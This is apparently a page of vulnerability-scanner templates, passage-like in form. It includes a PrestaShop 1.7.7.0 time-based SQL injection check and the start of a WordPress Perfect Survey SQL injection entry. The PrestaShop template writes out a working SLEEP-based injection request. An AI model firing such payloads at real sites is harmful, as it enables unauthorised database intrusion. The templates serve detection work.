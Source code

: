 **Type - xpath**

- name - EV
- internal - True
- attribute - value
- xpath
  1. /html/body/form/div/input[@id='__EVENTVALIDATION']

---

# PrestaShop 1.7.7.0 SQL Injection

## Description

- The store system in PrestaShop 1.7.7.0 allows time-based boolean SQL injection via the module=productcomments controller=CommentGrade id_products[] parameter.

- severity - critical
- tags - cve,cve2021,sqli,prestshop,edb

## Requests

### Step - 1

```
@timeout: 20s
GET /index.php?fc=module&module=productcomments&controller=CommentGrade&id_products[]=1%20AND%20(SELECT%203875%20FROM%20(SELECT(SLEEP(6)))xoOt) HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. duration>=6
  2. status_code == 200
  3. contains(content_type, "application/json")
  4. contains(body, "average_grade")
- condition - and

---

# WordPress Perfect Survey\<1.5.2 - SQL Injection

## Description

- Perfect Survey WordPress plugin before 1.5.2 does not validate and escape the question_id GET parameter before using it in a SQL statement in the get_question AJAX action, allowing unauthenticated users to perform SQL injection.
